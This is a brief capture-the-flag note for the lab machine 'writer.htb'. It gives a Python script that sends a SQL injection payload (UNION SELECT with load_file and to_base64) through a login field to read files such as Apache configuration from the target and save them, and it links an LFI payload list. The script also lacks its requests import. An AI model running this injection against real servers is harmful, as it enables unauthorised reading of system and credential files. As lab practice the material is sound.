 

python script to read linux conf file.

List: https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-linux-list.txt

```python
import sys
import re
import base64

url = "http://writer.htb/administrative"
regex = re.compile(r"admin(.*)</h3>", re.DOTALL)
# uname = admin' union select 1,load_file('/etc/apache2/sites-enabled/000-default.conf'),3,4,5,6;-- -
data = {"uname": f"admin' union select 1,to_base64(load_file('{sys.argv[1]}')),3,4,5,6;-- -", "password":"password"}
req = requests.post(url, data=data)
match = re.search(regex, req.text)
result = match.group(1)

fname = sys.argv[1].replace("/", "_")[1:]
if result != "None":
        decodefile = base64.b64decode(result)
        with open('files/'+fname, 'wb+') as f:
                f.write(decodefile)
#else:
#       print("Fail")
```



check the files from target.

```bash
less files/etc_apache2_sites-enabled_000-default.conf
```


